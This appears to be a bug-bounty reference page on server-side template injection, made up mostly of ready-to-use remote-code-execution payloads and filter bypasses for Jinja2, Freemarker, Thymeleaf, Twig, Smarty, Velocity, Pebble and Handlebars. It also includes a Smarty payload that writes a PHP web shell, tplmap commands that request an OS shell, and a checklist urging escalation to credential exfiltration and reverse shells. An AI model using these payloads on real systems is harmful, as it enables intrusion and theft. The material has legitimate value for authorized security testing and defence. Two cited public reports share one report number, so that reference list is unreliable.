

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/SSTI

# Server-Side Template Injection (SSTI)

SSTI is the one I get excited about. When a template engine evaluates user-controlled input, you're not just injecting data  -  you're injecting code. On most engines, that's a direct path to RCE. This is a critical finding every time.

## Detection  -  The Polyglot Probe

One probe covers most engines and gives you enough signal to fingerprint:

```bash
${{<%['"}}%\.
```

If the app throws an error or behaves unusually  -  you have SSTI. Then narrow down the engine with:



### Quick Fingerprint Payloads

| Payload | Expected Output | Engine |
| --- | --- | --- |
| `{{7*7}}` | `49` | Jinja2, Twig |
| `${7*7}` | `49` | Freemarker, Pebble, Smarty |
| `<%= 7*7 %>` | `49` | ERB (Ruby), EJS (Node) |
| `#{7*7}` | `49` | Ruby Slim, Thymeleaf |
| `{{7*'7'}}` | `7777777` | Jinja2 (Python specific) |
| `${7*'7'}` | Error / `49` | Freemarker |
| `*{7*7}` | `49` | Thymeleaf (Spring) |

## Jinja2 (Python  -  Flask, Django)

### RCE via Class Hierarchy

```python
# Access Python object model through Jinja2
# Get base class -> subclasses -> find subprocess / os
 
# Classic RCE chain
{{''.__class__.__mro__[1].__subclasses__()}}
 
# Find index of subprocess.Popen (varies per environment  -  enumerate)
{{''.__class__.__mro__[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()}}
 
# Cleaner  -  use config or request globals
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{{request.__class__.__init__.__globals__['os'].popen('whoami').read()}}
 
# If 'os' isn't directly in globals, walk the module tree
{{''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
# (class 40 is often <type 'file'> in Python 2)
 
# lipsum filter  -  works in sandboxed environments
{{lipsum.__globals__['os'].popen('id').read()}}
 
# cycler object
{{cycler.__init__.__globals__.os.popen('id').read()}}
 
# joiner
{{joiner.__init__.__globals__.os.popen('id').read()}}
```

### Jinja2 Filter Bypasses

```python
# When dots are filtered
{{''['__class__']['__mro__'][1]['__subclasses__']()}}
 
# When underscores are filtered
{{''['\x5f\x5fclass\x5f\x5f']}}
 
# When brackets are filtered
{{x}}
 
# attr() filter
{{''|attr('__class__')|attr('__mro__')|list}}
```

## Freemarker (Java)

```java
// Basic execution
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
 
// Alternate
${"freemarker.template.utility.Execute"?new()("id")}
 
// With API access (Freemarker 2.3.17+)
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

## Thymeleaf (Java  -  Spring)

Thymeleaf SSTI is Spring-specific. Look for `__${expression}__::.x` pattern:

```java
// Fragment expression injection
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
 
// SpEL via preprocessed expression
__${T(java.lang.Runtime).getRuntime().exec("id")}__::.x
 
// Full RCE
__${T(java.lang.Runtime).getRuntime().exec(new String[]{"bash","-c","id"})}__::.x
```

## Pebble (Java)

```java
// Pebble uses Java reflection
{{ variable.getClass().forName('java.lang.Runtime').getMethod('exec',''.class).invoke(variable.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'id') }}
 
// Simpler with _env


{{ bytes }}
```

## Twig (PHP)

```php
// Information disclosure
{{_self}}
{{_self.env}}
 
// RCE via filter chain
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
 
// Or directly:
{{['id']|map('system')|join}}
{{['id']|filter('system')}}
```

## Smarty (PHP)

```php
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('id')}
```

## Velocity (Java)

```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.inputStream)
...
```

## Hunting for SSTI

SSTI shows up most often where user input appears in:

- Email templates ("Hello, {{first_name}}")
- Error pages that reflect the URL or request details
- Search results headers ("Results for: {{query}}")
- PDF/document generation from templates
- Marketing/notification template editors

```bash
# Automated SSTI detection
python3 tplmap.py -u "https://target.com/search?q=test"
python3 tplmap.py -u "https://target.com/search?q=test" --os-shell
 
# Burp extensions: J2EEScan, tplmap via active scan
```

## Engine Cheat Sheet

The detection and fingerprinting sections cover how to identify the engine. Here are the targeted payloads per engine for confirmation and RCE, consolidated for quick reference during exploitation.

### Jinja2 (Python  -  Flask, Django)

**Confirm Jinja2:**

```python
{{config}}             # dumps Flask config object
{{7*'7'}}             # returns 7777777 in Python (not 49)
```

**RCE via cycler (cleanest one-liner):**

```python
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

**RCE via config globals:**

```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

**RCE via subclass enumeration (when globals route is blocked):**

```python
# Dump subclasses to find subprocess.Popen index
{{''.__class__.__mro__[1].__subclasses__()}}
 
# Once you have the index (varies per Python env  -  look for subprocess.Popen):
{{''.__class__.__mro__[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()}}
```

**When underscores are filtered:**

```python
{{''['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][1]['\x5f\x5fsubclasses\x5f\x5f']()}}
```

---

### Twig (PHP)

**Confirm Twig:**

```php
{{_self}}             # returns the template object reference
{{_self.env}}         # returns the Twig environment
```

**RCE via undefined filter callback:**

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

**RCE via map filter (Twig 1.x):**

```php
{{['id']|map('system')|join}}
```

**RCE via filter (Twig 2.x+):**

```php
{{['id']|filter('system')}}
```

---

### Freemarker (Java)

**Confirm Freemarker:**

```java
${7*7}       // returns 49
${.now}      // returns current date/time object
```

**RCE via Execute class:**

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
```

**Alternate with API access (Freemarker 2.3.17+):**

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

### Handlebars (Node.js)

Handlebars doesn't have a direct `eval` path, but prototype pollution via helper registration creates a code execution path:

**Confirm Handlebars context access:**

```handlebars
{{this}}
{{@root}}
```

**RCE via constructor chain (requires prototype pollution adjacent conditions):**

```javascript
// Injected via Handlebars template that reaches the lookup helper
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id').toString()"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

This chain exploits the `lookup` and `with` helpers to access `Function` constructor. Only works when server-side rendering of user-controlled Handlebars templates is happening directly.

---

### Velocity (Java)

**Confirm Velocity:**

```velocity
$class.inspect("java.lang.String").type
#set($x = 7*7)$x     // returns 49
```

**RCE:**

```velocity
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.inputStream)
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---

## Checklist

- Send the polyglot probe: `${{<%['"}}%\.`  -  look for errors or unexpected output
- Confirm with arithmetic: `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`
- Fingerprint the engine: `{{7*'7'}}` (Jinja2 gives 7777777), `{{config}}` (Flask/Jinja2), `${.now}` (Freemarker)
- Use tplmap for automated detection and exploitation before going manual
- For Jinja2: test `{{cycler.__init__.__globals__.os.popen('id').read()}}` first
- For Twig: test `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`
- For Freemarker: test `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}`
- For Velocity: test `#set` + Runtime chain
- If direct RCE payloads fail: test filter-bypass variants (hex encoding, attribute access via `[]`)
- Check email templates, PDF generators, and search result headers as prime injection surfaces
- Escalate beyond `id`  -  read `/etc/passwd`, exfil env vars for cloud creds, establish reverse shell
- Document the sink: what template field, what endpoint, what user-controlled parameter

## Public Reports

- SSTI in Shopify's email template editor leading to RCE - [HackerOne #549667](https://hackerone.com/reports/549667)
- Jinja2 SSTI in unikrn.com contact form - [HackerOne #125980](https://hackerone.com/reports/125980)
- SSTI in Uber's Rider app via user-supplied notification template - [HackerOne #125980](https://hackerone.com/reports/125980)
- Freemarker SSTI in Spring-based app leading to RCE - [HackerOne #409745](https://hackerone.com/reports/409745)
- Server-Side Template Injection via Twig in PHP application - [HackerOne #364686](https://hackerone.com/reports/364686)

## See Also

- [XSS Overview](../../../Injection/XSS/)  -  template injection vs DOM injection
- [NoSQLi](../../../Attack-Surface/Web/Injection/NoSQLi)
- [Host Header](../../../Attack-Surface/Web/Injection/Host-Header)
- [Command Injection](../../../Attack-Surface/Web/Injection/Command-Injection)  -  SSTI to RCE chains reach this impact class
